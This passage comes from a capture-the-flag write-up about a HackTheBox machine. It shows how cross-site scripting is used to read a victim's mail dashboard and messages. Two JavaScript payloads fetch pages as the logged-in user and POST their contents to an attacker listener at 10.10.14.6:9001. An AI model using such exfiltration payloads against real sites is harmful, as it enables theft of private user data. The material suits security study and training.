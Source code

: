 ```

<html lang="en"><head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title>AdminLTE 3 | Read Mail</title>
...[snip]...

```

I can save that to a file and open it in Firefox. The CSS / images don’t show (because they will be failed requests to mail.stacked.htb), but I can still see the general page and links:

![image-20210824115718119](https://0xdfimages.gitlab.io/img/image-20210824115718119.png)

The “Inbox” link points to `/dashboard.php`. I’ll actually make this page available from my VM and play with it in [Beyond Root](#message-app).

### View Mailbox

To get another page as this user and then return it, I’ll need to make two HTTP requests with JavaScript. The first will get the page I want, and the second will return the source just like above. The first request will get `/dashboard.php`. It will also have a `onreadystatechange` function that waits for the request to finish (`readyState == 4`), and then starts a new request to send the results back to me:

```

var dashboardreq = new XMLHttpRequest();    
dashboardreq.onreadystatechange = function() {              
  if (dashboardreq.readyState == 4) {                       
    var exfilreq = new XMLHttpRequest();                    
    exfilreq.open("POST", "http://10.10.14.6:9001/", false);                                                      
    exfilreq.send(dashboardreq.response);                 
  }     
};    
dashboardreq.open('GET', '/dashboard.php', false);    
dashboardreq.send();  

```

After a minute, I have another page that shows my email as well as one more from “Jeremy Taint”:

![image-20210824120713361](https://0xdfimages.gitlab.io/img/image-20210824120713361.png)

The link on the first one is `/read-mail.php?id=1`, and the subject line is interesting.

### Read Mail

The same payload as above, but with a different initial URL:

```

var mail1req = new XMLHttpRequest();    
mail1req.onreadystatechange = function() {    
  if (mail1req.readyState == 4) {    
    var exfilreq = new XMLHttpRequest();    
    exfilreq.open("POST", "http://10.10.14.6:9001/", false);    
    exfilreq.send(mail1req.response);    
  }    
};    
mail1req.open('GET', '/read-mail.php?id=1', false);    
mail1req.send();    

```
